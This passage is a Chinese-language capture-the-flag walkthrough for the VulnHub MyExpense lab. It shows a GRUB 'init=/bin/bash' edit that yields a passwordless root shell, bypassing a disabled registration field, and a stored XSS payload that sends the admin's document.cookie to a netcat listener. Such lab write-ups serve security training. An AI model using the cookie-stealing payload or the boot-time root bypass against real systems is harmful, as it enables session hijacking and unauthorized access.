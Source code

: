 靶场下载：

https://download.vulnhub.com/myexpense/MyExpense-Vulnerable-Web-Application.ova

window7或者2019安装virtual box

------

## 🔹 操作步骤

### 1. 重启进入 GRUB 菜单

- 启动时按住 **Shift**（BIOS）或 **Esc**（UEFI），直到出现 GRUB 菜单。
- 如果机器直接进系统，可能需要在启动时一直狂按 `Shift`。

------

### 2. 编辑 GRUB 启动参数

- 在 GRUB 菜单上选中你要启动的内核行（一般是第一项），**不要回车**。
- 按 **e** 进入编辑模式。

------

### 3. 修改内核启动参数

找到这一行（大概是这样的）：

```
linux   /boot/vmlinuz-xxx root=/dev/sda1 ro quiet
```

把里面的 `ro quiet` 改成：

```
rw init=/bin/bash
```

意思是：以读写模式挂载根分区，并直接执行 bash。

------

### 4. 启动到单用户模式

按 **Ctrl + X** 或 **F10** 启动。
 系统会直接进入一个 **root shell**，不需要密码。

------

### 5. 修改网卡设置

```
vi /etc/network/interfaces
exec /sbin/init
```

### 6.成功扫描到ip地址

![image-20250828192157048](images/image-20250828192157048.png)

### 7.端口扫描

![image-20250828193226469](images/image-20250828193226469.png)

### 访问80端口，有注册和登录界面

```
无法注册，不知道账号和密码
```

![image-20250828193935436](images/image-20250828193935436.png)

```
查看源码，发现是disabled 的原因，删除disabled
```

![image-20250828194658368](images/image-20250828194658368.png)

#### 成功注册

![image-20250828194929325](images/image-20250828194929325.png)

#### 但是无法登录，账号没有被激活

![image-20250828195021232](images/image-20250828195021232.png)



### 尝试从其他地方入手，进行目录扫描或者爆破

#### 目录扫描：

![image-20250828194022007](images/image-20250828194022007.png)

```
/admin 没有权限
/robots.txt提示 /admin/admin.php
```

![image-20250828194148388](images/image-20250828194148388.png)

```
访问 http://192.168.126.132/admin/admin.php   似乎是别人的登录信息,并且有我们刚刚注册的信息
```

![image-20250828195314289](images/image-20250828195314289.png)

尝试激活，但是没有权限

![image-20250828195404709](images/image-20250828195404709.png)

```
这里尝试了一下爆破，发现不是弱口令
注册后信息可以在/admin/admin.php看到
可以尝试是不是存储型xss
尝试在注册界面注入
```

```
<script>document.write('<img src="images/1.php?cmd='+document.cookie+'" width=0 height=0 border=0 />');</script> 
```

![image-20250828201626230](images/image-20250828201626230.png)

后台收到cookie

```
nc -lvnp 5533
```

![image-20250829110853303](images/image-20250829110853303.png)



# ![image-20250829110831684](images/image-20250829110831684.png)



